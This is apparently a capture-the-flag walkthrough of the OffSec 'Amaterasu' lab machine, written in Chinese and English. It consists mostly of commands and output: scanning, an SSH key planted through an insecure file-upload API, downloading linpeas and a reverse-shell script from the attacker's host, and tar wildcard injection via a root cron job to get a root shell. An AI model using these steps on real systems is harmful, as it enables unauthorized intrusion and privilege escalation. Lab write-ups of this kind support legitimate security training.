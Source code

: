 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Amaterasu
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.243.249 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.243.249:21
Open 192.168.243.249:25022
Open 192.168.243.249:33414
Open 192.168.243.249:40080

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
25022/tcp open  ssh     syn-ack OpenSSH 8.6 (protocol 2.0)
33414/tcp open  unknown syn-ack
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Thu, 23 May 2024 06:05:17 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   Help: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
40080/tcp open  http    syn-ack Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: My test page
|_http-server-header: Apache/2.4.53 (Fedora)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/
```

ffuf
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.243.249:33414/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/common.txt

help                    [Status: 200, Size: 137, Words: 19, Lines: 2, Duration: 91ms]
info                    [Status: 200, Size: 98, Words: 14, Lines: 2, Duration: 82ms]
```

`http://192.168.243.249:33414/info`
```
0	"Python File Server REST API v2.5"
1	"Author: Alfredo Moroder"
2	"GET /help = List of the commands
```

`http://192.168.243.249:33414/help`
```
0	"GET /info : General Info"
1	"GET /help : This listing"
2	"GET /file-list?dir=/tmp : List of the files"
3	"POST /file-upload : Upload files"
```

查看`http://192.168.243.249:33414/file-list?dir=/home/`
```
0	"alfredo"
```

查看`http://192.168.243.249:33414/file-list?dir=/home/alfredo/`
```
0	".bash_logout"
1	".bash_profile"
2	".bashrc"
3	"local.txt"
4	".ssh"
5	"restapi"
6	".bash_history"
```

可以上傳`authorized_keys`，但她說只能上傳`txt`之類的，參考[Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl -X POST -H "Content-Type: multipart/form-data" -F file=@/home/kali/pgplay/authorized_keys -F filename=/home/alfred/id_rsa.pub http://192.168.243.249:33414/file-upload   
{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

改成txt上傳
```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl -X POST -H "Content-Type: multipart/form-data" -F "file=@/home/kali/pgplay/id_rsa_pub.txt" -F "filename=/home/alfredo/.ssh/authorized_keys" http://192.168.243.249:33414/file-upload   
{"message":"File successfully uploaded"}
```

ssh登入，在`/home/alfredo`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh alfredo@192.168.243.249 -p 25022

[alfredo@fedora ~]$ cat local.txt
b5874d41de2504cc69cd920a42f7adb7
```

`linpeas.sh`
```
[alfredo@fedora tmp]$ wget 192.168.45.226/linpeas.sh
[alfredo@fedora tmp]$ chmod +x linpeas.sh
[alfredo@fedora tmp]$ ./linpeas.sh

/var/spool/anacron:
total 0
drwxr-xr-x.  2 root root  63 Mar 28  2023 .
drwxr-xr-x. 10 root root 113 Mar 28  2023 ..
-rw-r--r--.  1 root root   0 Mar 28  2023 cron.daily
-rw-r--r--.  1 root root   0 Mar 28  2023 cron.monthly
-rw-r--r--.  1 root root   0 Mar 28  2023 cron.weekly
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

看`/usr/local/bin/backup-flask.sh`
```bash
[alfredo@fedora tmp]$ cd /usr/local/bin/
[alfredo@fedora bin]$ cat backup-flask.sh 
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

用[Wildcard Injection](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)或[Linux Privilege Escalation: Wildcards with tar](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp33414

[alfredo@fedora bin]$ cd /home/alfredo/restapi
[alfredo@fedora restapi]$ wget 192.168.45.226:21/reverse.sh
[alfredo@fedora restapi]$ chmod +x reverse.sh
[alfredo@fedora restapi]$ echo  "" > '--checkpoint=1'
[alfredo@fedora restapi]$ echo  "" > '--checkpoint-action=exec=sh reverse.sh'
```

等反彈，在/root得proof.txt
```
sh-5.1# whoami
root
sh-5.1# cd /root
sh-5.1# ls
ls
anaconda-ks.cfg
build.sh
proof.txt
run.sh
sh-5.1# cat proof.txt
fa8aa17959ce9593648dc4a051eddf00
```